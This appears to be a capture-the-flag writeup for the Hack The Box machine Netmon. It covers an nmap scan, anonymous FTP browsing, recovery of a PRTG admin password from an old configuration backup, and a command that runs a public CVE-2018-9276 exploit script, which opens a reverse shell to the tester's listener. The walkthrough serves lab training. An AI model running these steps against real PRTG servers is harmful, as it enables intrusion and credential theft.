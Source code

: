 ```yaml
---
title: "Netmon - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Netmon
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## Netmon
![](https://kar0nx.github.io/assets/images/writeup/3fa8184483e279369b81becafbac9dee.webp)

## Reconnaissance

IP: 10.10.10.152
### NMAP

```
nmap -T4 -p- -A 10.10.10.152
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 14:54 EST
Nmap scan report for 10.10.10.152
Host is up (0.032s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/20%OT=21%CT=1%CU=40091%PV=Y%DS=2%DC=T%G=Y%TM=67B7
OS:88E7%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=I%CI=I%II=I%TS=A)
OS:SEQ(SP=100%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=A)OPS(O1=M53CNW8ST11%O2=
OS:M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11)WI
OS:N(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=20
OS:00%O=M53CNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3
OS:(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=
OS:Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=
OS:N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
OS:%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -6s, deviation: 0s, median: -6s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-02-20T19:56:13
|_  start_date: 2025-02-20T19:50:06
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   30.89 ms 10.10.14.1
2   31.60 ms 10.10.10.152

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.06 seconds
```

Nmap shows few open ports 21 - ftp, 80 http  - Indy httpd 18.1.37.13946, 135 - rpc, 139/445 smb.
## Website
### Site
```
http://10.10.10.152/
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250220210241.png)

As we can see site shows PRTG Network Monitor basic site, tried default credentials but doesn't work.
## FTP

```
ftp 10.10.10.152  
```

We can grab first flag here navigate to 
```
/users/public/desktop
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250220210154.png)

Let's continue exploring available resources

```
/windows/prtg configuration.dat
```

here we can find configuration files 
in this file I found username 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250220211718.png)

Searching the internet I found interesting topic on reddit.
https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/?rdt=53631
Next I found PRTG Configuration.dat.old and PRTG Configuration.dat.old.bak

```
/programdata/paessler/"PRTG Network Monitor"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250220212843.png)

get both file and explore

```
grep -B5 -A5 -i password PRTG\ Configuration.old.bak | sed 's/ //g' |sort -u| less
```

and we found password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250220213726.png)

Unfortunately password doesn't work. We can spot that logs are from 2018 and password contains year. After changing to "PrTg@dmin2019" we can log in.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221073601.png)
## Gaining Access

https://www.rapid7.com/db/modules/exploit/windows/http/prtg_authenticated_rce/
As we can read in description, to use exploit we need to know credentials, what we have.
In this case let's try exploit without metasploit.
I found simple script on github 
https://github.com/A1vinSmith/CVE-2018-9276

set nc and run exploit
```
./exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.43 --lport 4444 --user prtgadmin --password PrTg@dmin2019
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221075949.png)

Lastly to get root flag, navigate to :

```
\Users\Administrator\Desktop
```